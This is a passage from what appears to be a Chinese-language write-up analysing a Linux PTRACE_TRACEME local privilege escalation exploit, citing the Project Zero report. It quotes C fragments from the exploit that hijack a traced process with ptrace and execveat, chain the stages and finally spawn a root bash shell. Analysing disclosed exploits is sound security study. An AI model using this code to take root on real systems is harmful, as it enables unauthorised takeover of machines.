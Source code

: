 ```c
141   regs.orig_rax = __NR_execveat;
142   regs.rdi = exec_fd;
143   regs.rsi = scratch_area + offsetof(struct injected_page, path);
144   regs.rdx = scratch_area + offsetof(struct injected_page, argv);
145   regs.r10 = scratch_area + offsetof(struct injected_page, envv);
146   regs.r8 = AT_EMPTY_PATH;
147 
148   SAFE(ptrace(PTRACE_SETREGSET, pid, NT_PRSTATUS, &iov));
149   SAFE(ptrace(PTRACE_DETACH, pid, 0, NULL));
150   SAFE(waitpid(pid, &dummy_status, 0));
151 }

```

函数 force_exec_and_wait 的作用是使用 ptrace 控制 tracee 执行 execveat 函数替换进程的镜像, 这里它控制 task B 执行了 task A 的进程（即 exploit 的可执行程序）然后参数为 stage2, 这实际上就是让 task B 执行了 middle_stage2 函数

```c
167 int main(int argc, char **argv) {
168   if (strcmp(argv[0], "stage2") == 0)
169     return middle_stage2();
170   if (strcmp(argv[0], "stage3") == 0)
171     return spawn_shell();
```

而 middle_stage2 函数同样调用了 force_exec_and_wait , 这将使 task B 利用 ptrace 控制 task C 执行 execveat 函数，将 task C 的镜像也替换为 exploit 的 binary, 且参数是 stage3


```c
153 static int middle_stage2(void) {
154   /* our child is hanging in signal delivery from execve()'s SIGTRAP */
155   pid_t child = SAFE(waitpid(-1, &dummy_status, 0));
156   force_exec_and_wait(child, 42, "stage3");
157   return 0;
158 }
```

当 exploit binary 以参数 stage3 运行时，实际运行的是  spawn_shell 函数, 所以 task C 最后阶段运行的是 spawn_shell


```c
160 static int spawn_shell(void) {
161   SAFE(setresgid(0, 0, 0));
162   SAFE(setresuid(0, 0, 0));
163   execlp("bash", "bash", NULL);
164   err(1, "execlp");
165 }

```

在 spawn_shell 函数里， 它首先使用 setresgid/setresuid 将本进程的 real uid/effective uid/save uid 都变成 root, 由于 task C 刚刚已经执行了 suid binary 将自身的 euid 变成了 root, 所以这里的 setresuid/setresgid 可以成功执行，到此为止， task C 就变成了一个完全的 root 进程， 最后再执行 execlp 启动一个 shell, 即得到了一个完整 root 权限的 shell

## 引用

 - [ broken permission and object lifetime handling for PTRACE_TRACEME](https://bugs.chromium.org/p/project-zero/issues/detail?id=1903)
